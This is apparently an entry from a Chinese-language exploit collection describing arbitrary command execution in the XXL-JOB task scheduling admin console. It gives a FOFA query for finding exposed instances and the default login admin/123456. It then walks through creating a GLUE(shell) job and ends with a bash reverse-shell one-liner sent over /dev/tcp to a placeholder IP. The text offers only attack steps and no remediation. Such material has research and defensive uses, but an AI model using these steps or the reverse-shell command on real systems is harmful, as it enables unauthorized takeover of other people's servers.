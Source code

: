 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

```
XXL-JOB
```

## FOFA

```
app="XXL-JOB" || title="任务调度中心"
```

## 漏洞复现

登录后台增加一个任务

- 默认口令 admin/123456

![](./images/202202101914314.png)

- 注意运行模式需要为 GLUE(shell)

![](./images/202202101915543.png)

点击 GLUE IDE编辑脚本



![](./images/202202101915236.png)



![](./images/202202101915343.png)



执行探测出网，和任务调用是否可执行



反弹一个shell



```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```



![](./images/202202101915912.png)